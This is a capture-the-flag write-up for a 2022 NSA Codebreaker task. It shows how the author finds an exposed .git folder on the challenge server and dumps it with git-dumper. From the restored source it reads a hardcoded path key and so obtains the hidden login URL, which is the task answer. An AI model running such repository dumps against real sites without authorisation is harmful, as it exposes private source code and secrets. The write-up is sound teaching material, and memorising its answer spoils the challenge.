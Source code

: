 # Task B2

## Background
> It looks like the backend site you discovered has some security features to prevent you from snooping. They must have hidden the login page away somewhere hard to guess.
>
> Analyze the backend site, and find the URL to the login page.
>
> Hint: this group seems a bit sloppy. They might be exposing more than they intend to.
>
> **Warning**: Forced-browsing tools, such as DirBuster, are unlikely to be very helpful for this challenge, and may get your IP address automatically blocked by AWS as a DDoS-prevention measure. Codebreaker has no control over this blocking, so we suggest not attempting to use these techniques.
> ### Prompt
> Enter the URL for the login page

## Writeup
TL;DR: Dump the exposed Git folder, restore the working tree, and get the expected path key from the server files

We have the URL for the backend site from task B1, and if we just curl it, we get a 403. Since there's nothing interesting in the body, let's see if there's anything in the headers.
```bash
$ curl -i "https://xekflqhmhrsoelot.ransommethis.net"
HTTP/2 403
date: Sat, 26 Nov 2022 03:23:50 GMT
content-type: text/html; charset=utf-8
content-length: 412
server: nginx/1.23.1
x-git-commit-hash: 75e5832e838a7478cdbb41e4e9a449820a85b8a2

<html>
...
</html>
```

We can see one header that stands out: `x-git-commit-hash`. This means the server has probably also exposed the `.git/` folder, so we can try to see what's there.
```
$ curl https://xekflqhmhrsoelot.ransommethis.net/.git/
<html>
    <head>
        <title>Directory Listing Disabled</title>
    </head>
    <body>
        <h1>Directory Listing Disabled</h1>
        <p>Directory listing is not permitted for this directory.</p>
        <br>
        <br>
        <br>
        <hr>
        <small>This site is part of the <a href="https://nsa-codebreaker.org/">2022 NSA Codebreaker Challenge</a>.  Please do not submit any personal data to this site.</small>
    </body>
</html>
```

Unforunately, the server informs us that directory listing is disabled. However, the fact that we don't get a 404 or 403 means that we can still reconstruct the git folder, and thus source code; it'll just take a bit more work.

Fortunately, other people have taken the time to build tools to do just that. I personally used [GitTools](https://github.com/internetwache/GitTools), but obviously it isn't the only one that can do the job. For GitTools, the command looks like
```bash
GitTools/Dumper/git-dumper.sh https://xekflqhmhrsoelot.ransommethis.net/.git/ .git/
```
With the `.git` folder, we can reconstruct the working directory by simply running
```bash
git restore *
```

Looking at the files we've found, `app/server.py` seems the most promising. At the very bottom, we find the main route handler, which is defined as
```python
@app.route("/", defaults={'pathkey': '', 'path': ''}, methods=['GET', 'POST'])
@app.route("/<path:pathkey>", defaults={'path': ''}, methods=['GET', 'POST'])
@app.route("/<path:pathkey>/<path:path>", methods=['GET', 'POST'])
def pathkey_route(pathkey, path):
    if pathkey.endswith('/'):
		# Deal with weird normalization
		pathkey = pathkey[:-1]
		path = '/' + path

	# Super secret path that no one will ever guess!
	if pathkey != expected_pathkey():
		return render_template('unauthorized.html'), 403
    # ...
```

`expected_pathkey` is defined at the top of the file as
```python
def expected_pathkey():
	return "jphzwhdbesknahns"
```

This explains why just visiting `/` gives a 403; the first path component doesn't match this string. Therefore, the login page should be at `https://xekflqhmhrsoelot.ransommethis.net/jphzwhdbesknahns/login`, and putting this into the answer box gives us our task B2 badge!